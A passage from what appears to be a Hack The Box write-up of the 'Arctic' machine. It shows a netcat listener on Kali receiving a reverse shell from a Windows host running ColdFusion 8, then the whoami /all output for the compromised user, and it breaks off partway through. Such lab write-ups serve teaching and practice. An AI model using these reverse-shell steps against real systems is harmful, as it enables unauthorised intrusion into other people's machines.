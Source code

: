 ![](images/2.png)

```
kali@kali:~/htb/Arctic$ sudo rlwrap nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.49.137 50421
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

And we finally get a connection. The webpage is so slow, so getting away from that is very satisfying.

So I check the user information:

```
C:\ColdFusion8\runtime\bin>whoami /all
whoami /all

USER INFORMATION
----------------

User Name    SID                                          
============ =============================================
arctic\tolis S-1-5-21-2913191377-1678605233-910955532-1000


GROUP INFORMATION
-----------------

```